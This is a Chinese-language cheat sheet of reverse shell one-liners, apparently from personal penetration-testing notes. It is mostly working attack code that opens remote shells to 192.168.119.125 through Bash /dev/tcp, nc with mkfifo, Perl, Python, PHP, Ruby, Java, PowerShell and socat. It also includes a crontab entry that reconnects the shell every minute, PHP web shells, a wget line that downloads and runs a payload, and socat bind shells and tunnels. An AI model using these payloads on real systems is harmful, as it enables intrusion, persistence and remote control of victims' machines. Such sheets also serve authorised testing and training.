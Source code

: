# Reverse Shell

reverse shell的cheat sheet



### shell的集合

https://www.revshells.com/

### Bash

```bash
bash -i >& /dev/tcp/192.168.119.125/8080 0>&1
 
bash -c "bash -i >& /dev/tcp/192.168.119.125/8080 0>&1"
```

```bash
nc -nvlp 8080
```

### NC

-e不可用时候

```bash
rm -f /tmp/d; mkfifo /tmp/d; /bin/sh -c "cat /tmp/d | /bin/sh -i 2>&1 | nc 192.168.119.125 8080 > /tmp/d"
 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.125 8080 >/tmp/f
```

-e 可用

```bash
nc -e /bin/sh 192.168.119.125 8080
```

```bash
nc -nvlp 8080
```

### Perl

```perl
perl -e 'use Socket;$i="192.168.119.125";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.119.125:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```bash
nc -nvlp 8080
```

### Python

python3 以及python2都可用

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.125",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.125",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

另外的形式 2/3都可用

```python
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.119.125',8080))\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```

```bash
nc -nvlp 8080
```

### php

```php
php -r '$sock=fsockopen("192.168.119.125",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
nc -nvlp 8080
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("192.168.119.125",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

不依赖于/bin/sh的shell

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.119.125","8080");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

如果目标系统运行Windows

```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.119.125","8080");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

```bash
nc -nvlp 8080
```

### JAVA

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.119.125/8080;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

```bash
nc -nvlp 8080
```



### crontab定时任务

crontab -e编辑当前用户的任务，或者是写到计划任务目录，一般是/var/spool/cron/目录，ubuntu是/var/spool/cron/crontabs。文件名为用户名root等。下面命令含义是每一分钟执行一次反弹shell命令。具体crontab用法可以参考Crontab定时任务配置

```
* * * * * /bin/bash -i >& /dev/tcp/192.168.119.125/8080 0>&1
```

# PHP web reverse shell

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.119.125/80800>&1'");
```

```php
<?php shell_exec("bash -i >& /dev/tcp/192.168.119.125/8080 0>&1");?>
```

如果遇见情况无法直接执行oneliner shell 可以让靶机下载然后执行。

```php
<?php system("wget http://192.168.119.125/rev.php -O /tmp/shell.php;php /tmp/shell.php");?>
```

### SOCAT

#### TCP reverse shell

listen

```bash
socat [file:`tty`,echo=0,raw](file://,echo=0,raw) tcp-listen:8888
```

exec

```bash
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.119.125:8888
```

#### socat tunnel

```
socat TCP-LISTEN:8080,fork,reuseaddr TCP:127.0.0.1:80 
```

```
socat TCP-LISTEN:8085,fork,reuseaddr TCP:127.0.0.1:65334 
```

#### Stable TTY bind

victim

```bash
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane 
```

Connect from local:

```bash
socat [FILE:`tty`,raw,echo=0](FILE://,raw,echo=0) TCP:192.168.0.74:1337 
```

#### Bind a binary to a port

```
exec socat TCP-LISTEN:31337,fork,reuseaddr EXEC:/home/leak,echo=0,pty,stderr
```

#### Fork a port

```
socat TCP-LISTEN:4444,fork TCP:localhost:1337
```

#### mitm ipv6 proxy

ipv4 (capture in burp)

```bash
socat TCP-LISTEN:80,fork,reuseaddr TCP:127.0.0.1:8080
```

ipv6:

```bash
socat -v tcp4-listen:5985,reuseaddr,fork tcp6:[dead:babe::1001]:5985
```

http://42.192.89.201/tools/socat.html

## powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.125',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.125',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

